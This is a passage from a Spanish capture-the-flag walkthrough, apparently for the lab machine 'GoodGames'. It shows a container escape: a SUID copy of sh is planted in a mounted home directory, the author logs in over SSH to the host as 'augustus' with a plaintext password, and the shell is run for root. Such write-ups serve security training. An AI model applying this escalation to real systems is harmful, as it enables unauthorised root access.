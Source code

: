 ```
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /sys/firmware type tmpfs (ro,relatime)
```

Como tenemos `acceso` a un `directorio` que está en la `montura`, podemos añadir la `sh` a este directorio y darle permisos `SUID`, para que cuando nos conectemos como el usuario `augustus` a la máquina principal `convertirnos` en `root`

```
root@3a453ab39d3d:/home/augustus# cp /bin/sh .
root@3a453ab39d3d:/home/augustus# chmod u+s sh 
root@3a453ab39d3d:/home/augustus# ls -l sh
-rwsr-xr-x 1 root root 1099016 Aug  7 01:03 sh
```

Nos conectamos a la máquina principal como el usuario `augustus` por `SSH` usando la contraseña `superadministrator`

```
root@3a453ab39d3d:/home# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ ls -l
total 1196
-rwsr-xr-x 1 root root      117208 Aug  7 02:08 sh
-rw-r----- 1 root augustus      33 Aug  7 00:27 user.txt
augustus@GoodGames:~$ ./sh
```